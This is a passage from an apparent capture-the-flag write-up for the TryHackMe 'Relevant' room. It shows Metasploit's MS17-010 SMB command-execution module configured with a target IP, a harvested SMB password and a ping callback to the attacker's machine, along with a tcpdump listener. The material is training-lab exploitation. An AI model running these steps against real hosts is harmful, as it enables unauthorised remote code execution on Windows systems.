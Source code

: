```bash
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBSHARE              C$                                                              yes       The name of a writeable share on the server
   SMBUser                                                                               no        The username to authenticate as
   THREADS               1                                                               yes       The number of concurrent threads (max one per host)
   WINPATH               WINDOWS                                                         yes       The name of the remote Windows directory
```

Let's start with trying to execute a ping command on the target to ping our host. I will start a TcpDump on my VPN tunnel interface with an ICMP filter only displaying ICMP(Ping traffic).

```bash
──(raindayzz㉿redfish)-[~/TryHackMe/Relevant]
└─$ sudo tcpdump -i tun0 'icmp'
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Here are the final options sending a ping command to ping our local machine 3 times.

```bash
Module options (auxiliary/admin/smb/ms17_010_command):

   Name                  Current Setting                Required  Description
   ----                  ---------------                --------  -----------
   COMMAND               ping -n 3 10.9.11.106          yes       The command you want to execute on the remote host
   DBGTRACE              false                          yes       Show extra debug trace info
   LEAKATTEMPTS          99                             yes       How many times to try to leak transaction
   NAMEDPIPE                                            no        A named pipe that can be connected to (leave blank
                                                                   for auto)
   NAMED_PIPES           /usr/share/metasploit-framewo  yes       List of named pipes to check
                         rk/data/wordlists/named_pipes
                         .txt
   RHOSTS                10.10.102.225                  yes       The target host(s), range CIDR identifier, or host
                                                                  s file with syntax 'file:<path>'
   RPORT                 445                            yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                  no        Service description to to be used on target for pr
                                                                  etty listing
   SERVICE_DISPLAY_NAME                                 no        The service display name
   SERVICE_NAME                                         no        The service name
   SMBDomain             .                              no        The Windows domain to use for authentication
   SMBPass               Juw4nnaM4n420696969!$$$        no        The password for the specified username
```